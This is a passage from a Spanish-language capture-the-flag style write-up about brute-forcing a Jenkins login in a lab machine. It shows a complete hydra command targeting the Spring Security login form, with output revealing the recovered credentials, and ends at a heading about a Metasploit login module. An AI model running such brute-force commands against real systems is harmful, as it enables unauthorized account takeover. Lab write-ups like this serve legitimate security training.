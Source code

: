 Con esta información, ya podemos armar lo necesario para aplicar la fuerza bruta con **hydra**:
```bash
hydra -l geralt -P wordlist.txt 192.168.1.230 -s 8080 http-post-form "/j_spring_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=:c=/loginError:Invalid username or password" -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-04 13:58:04
[DATA] max 64 tasks per 1 server, overall 64 tasks, 238328 login tries (l:1/p:238328), ~3724 tries per task
[DATA] attacking http-post-form://192.168.1.230:8080/j_spring_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=:c=/loginError:Invalid username or password
[STATUS] 822.00 tries/min, 822 tries in 00:01h, 237506 to do in 04:49h, 64 active
[8080][http-post-form] host: 192.168.1.230   login: geralt   password: panda
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-04-04 13:59:10
```
Excelente, funcionó y tenemos la contraseña.

Vamos a comprobarlo:

<p align="center">
<img src="/assets/images/THL-writeup-findMe/Captura4.png">
</p>

Y estamos dentro.

<br>

<h3 id="jenkinsFB2">Aplicando Fuerza Bruta a Login de Jenkins con Módulo jenkins_login de Metasploit Framework</h3>
